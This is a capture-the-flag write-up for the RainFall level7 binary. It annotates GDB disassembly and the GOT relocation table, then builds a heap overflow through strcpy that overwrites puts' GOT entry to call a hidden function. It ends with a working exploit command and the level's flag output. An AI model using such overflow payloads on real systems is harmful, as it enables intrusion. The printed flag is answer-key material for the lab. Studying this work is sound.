 # level7

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048521 <+0>:      push   ebp
   0x08048522 <+1>:      mov    ebp,esp
   0x08048524 <+3>:      and    esp,0xfffffff0
   0x08048527 <+6>:      sub    esp,0x20                        ; 32 bytes of stack space
   0x0804852a <+9>:      mov    DWORD PTR [esp],0x8             ; load 1st malloc arg (8)
   0x08048531 <+16>:     call   0x80483f0 <malloc@plt>          ; malloc(8)
   0x08048536 <+21>:     mov    DWORD PTR [esp+0x1c],eax        ; struct1 = malloc return value (0x804a008)
   0x0804853a <+25>:     mov    eax,DWORD PTR [esp+0x1c]        ; eax = struct1
   0x0804853e <+29>:     mov    DWORD PTR [eax],0x1             ; 1st variable of struct1 (int) = 1
   0x08048544 <+35>:     mov    DWORD PTR [esp],0x8             ; load 1st malloc arg (8)
   0x0804854b <+42>:     call   0x80483f0 <malloc@plt>          ; malloc(8)
   0x08048550 <+47>:     mov    edx,eax                         ; edx = malloc return value (0x0804a018)
   0x08048552 <+49>:     mov    eax,DWORD PTR [esp+0x1c]        ; eax = struct1
   0x08048556 <+53>:     mov    DWORD PTR [eax+0x4],edx         ; 2nd variable of struct1 = 0x0804a018
   0x08048559 <+56>:     mov    DWORD PTR [esp],0x8             ; load 1st malloc arg (8)
   0x08048560 <+63>:     call   0x80483f0 <malloc@plt>          ; malloc(8)
   0x08048565 <+68>:     mov    DWORD PTR [esp+0x18],eax        ; struct2 = malloc return value (0x804a028)
   0x08048569 <+72>:     mov    eax,DWORD PTR [esp+0x18]        ; eax = struct2
   0x0804856d <+76>:     mov    DWORD PTR [eax],0x2             ; 1st variable of struct2 (int) = 2
   0x08048573 <+82>:     mov    DWORD PTR [esp],0x8             ; load 1st malloc arg (8)
   0x0804857a <+89>:     call   0x80483f0 <malloc@plt>          ; malloc(8)
   0x0804857f <+94>:     mov    edx,eax                         ; edx = malloc return value (0x0804a038)
   0x08048581 <+96>:     mov    eax,DWORD PTR [esp+0x18]        ; eax = struct2
   0x08048585 <+100>:    mov    DWORD PTR [eax+0x4],edx         ; 2nd variable of struct2 = 0x0804a038
   0x08048588 <+103>:    mov    eax,DWORD PTR [ebp+0xc]         ; eax = argv
   0x0804858b <+106>:    add    eax,0x4                         ; eax += 4 (argv[1] offset)
   0x0804858e <+109>:    mov    eax,DWORD PTR [eax]             ; eax = argv[1]
   0x08048590 <+111>:    mov    edx,eax                         ; edx = argv[1]
   0x08048592 <+113>:    mov    eax,DWORD PTR [esp+0x1c]        ; eax = struct1
   0x08048596 <+117>:    mov    eax,DWORD PTR [eax+0x4]         ; eax = 2nd variable of struct1
   0x08048599 <+120>:    mov    DWORD PTR [esp+0x4],edx         ; load 2nd strcpy arg (argv[1])
   0x0804859d <+124>:    mov    DWORD PTR [esp],eax             ; load 1st arg of strcpy (2nd var of struct1)
   0x080485a0 <+127>:    call   0x80483e0 <strcpy@plt>          ; strcpy(2nd var of struct1, argv[1])
   0x080485a5 <+132>:    mov    eax,DWORD PTR [ebp+0xc]         ; eax = argv
   0x080485a8 <+135>:    add    eax,0x8                         ; eax += 8 (argv[2] offset)
   0x080485ab <+138>:    mov    eax,DWORD PTR [eax]             ; eax = argv[2]
   0x080485ad <+140>:    mov    edx,eax                         ; edx = argv[2]
   0x080485af <+142>:    mov    eax,DWORD PTR [esp+0x18]        ; eax = struct2
   0x080485b3 <+146>:    mov    eax,DWORD PTR [eax+0x4]         ; eax = 2nd var of struct2
   0x080485b6 <+149>:    mov    DWORD PTR [esp+0x4],edx         ; load 2nd strcpy arg (argv[2]) to stack
   0x080485ba <+153>:    mov    DWORD PTR [esp],eax             ; load 1st strcpy arg (2nd var of struct2) to stack
   0x080485bd <+156>:    call   0x80483e0 <strcpy@plt>          ; strcpy(2nd var of struct2, argv[2])
   0x080485c2 <+161>:    mov    edx,0x80486e9                   ; edx = 0x80486e9 (contains "r")
   0x080485c7 <+166>:    mov    eax,0x80486eb                   ; eax = 0x80486eb (contains "/home/user/level8/.pass")
   0x080485cc <+171>:    mov    DWORD PTR [esp+0x4],edx         ; load 2nd fopen arg to stack
   0x080485d0 <+175>:    mov    DWORD PTR [esp],eax             ; load 1st fopen arg to stack
   0x080485d3 <+178>:    call   0x8048430 <fopen@plt>           ; fopen("/home/user/level8/.pass", "r")
   0x080485d8 <+183>:    mov    DWORD PTR [esp+0x8],eax         ; load 3rd fgets arg to stack (fopen return value)
   0x080485dc <+187>:    mov    DWORD PTR [esp+0x4],0x44        ; load 2nd fgets arg (68)
   0x080485e4 <+195>:    mov    DWORD PTR [esp],0x8049960       ; load 1st fgets arg (.bss buffer)
   0x080485eb <+202>:    call   0x80483c0 <fgets@plt>           ; fgets(buffer, 68, filestream)
   0x080485f0 <+207>:    mov    DWORD PTR [esp],0x8048703       ; load puts arg ("~~")
   0x080485f7 <+214>:    call   0x8048400 <puts@plt>            ; puts("~~")
   0x080485fc <+219>:    mov    eax,0x0
   0x08048601 <+224>:    leave
   0x08048602 <+225>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   ebp
   0x080484f5 <+1>:     mov    ebp,esp
   0x080484f7 <+3>:     sub    esp,0x18
   0x080484fa <+6>:     mov    DWORD PTR [esp],0x0              ; load time arg (NULL)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>             ; time(NULL)
   0x08048506 <+18>:    mov    edx,0x80486e0                    ; 0x80486e0 contains "%s - %d\n"
   0x0804850b <+23>:    mov    DWORD PTR [esp+0x8],eax          ; load 3rd printf arg to stack (time return value)
   0x0804850f <+27>:    mov    DWORD PTR [esp+0x4],0x8049960    ; load printf 2nd arg to stack
   0x08048517 <+35>:    mov    DWORD PTR [esp],edx              ; load 1st printf arg to stack
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>           ; printf("%s - %d\n", .bss buffer, time return value)
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
```

Once again in this level, `objdump` helps us to find a hidden function, `m`, which prints the content of a buffer declared in the bss section (out of the functions scope). This buffer is filled with a call to `fgets` on the content of the .pass file which contains the flag.

After a deep analysis of the `main`, we undertsand that it uses `malloc` to allocate space for two structures + one element of each one that looks like a string pointer. This is confirmed by the later calls to `strcpy`, used to copy argv[1] and argv[2] to these two addresses.

Now we have some clues to investigate on; we can use `strcpy` vulnerability to create an overflow and write some code on the heap. Actually, if we supply a long enough string to argv[1], we can erase the content of the second struct allocated, since the addresses will be contiguous on the heap memory.

We also know that we can overwrite the content of an address listed the Global Offset Table (referring to a shared library function address) to make it point to another address. Let's take a look.

```console
level7@RainFall:~$ objdump -TR ./level7

./level7:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*	00000000  GLIBC_2.0   printf
00000000      DF *UND*	00000000  GLIBC_2.0   fgets
00000000      DF *UND*	00000000  GLIBC_2.0   time
00000000      DF *UND*	00000000  GLIBC_2.0   strcpy
00000000      DF *UND*	00000000  GLIBC_2.0   malloc
00000000      DF *UND*	00000000  GLIBC_2.0   puts
00000000  w   D  *UND*	00000000              __gmon_start__
00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*	00000000  GLIBC_2.1   fopen
080486dc g    DO .rodata	00000004  Base        _IO_stdin_used


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```

The dynamic relocation of the function `puts`, which is called right after `strcpy` in the program, is located at the address `0x08049928`; here is our entry point to redirect the execution flow to the function `m` located at `0x080484f4`.

## Exploit

In order to overwrite the address pointed by `puts` in the GOT, we will use the address returned by the last `malloc` call. To do so, we first overwrite this address with the `puts` one (from GOT). This is done with an overflow attack performed on the first `strcpy`. Then, we use the second copy to write the content of argv[2] (we put `m` address in it) to this (altered) address.

Let's run the program in GDB with easily recognisable arguments ("AAAAAAAA" and "BBBBBBBB") and take a look at the heap :

```gdb
gdb-peda$ x/32 0x804a000                                    # heap starting address, found with 'info proc mappings' command in GDB
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018  # first struct int + char*
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141  # 'A' characters string
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038  # second struct int + char*
0x804a030:	0x00000000	0x00000011	0x42424242	0x42424242  # 'B' characters string
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
```

Here we see the allocation addresses of the structures, containing an integer (0x00000001/2), then a pointer to the address of the string (0x0804a018/38) stored after 8 bytes of metadata (0x00000000	0x00000011). So, what we need to do is to write 20 characters + the `puts` relocation address to overwrite the string pointer address of the second struct (0x0804a038), then write the address of `m` to it. Here we go ! 

```console
level7@RainFall:~$ ./level7 `python -c 'print "A"*20 + "\x28\x99\x04\x08" + " " + "\xf4\x84\x04\x08"'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1524764276
```
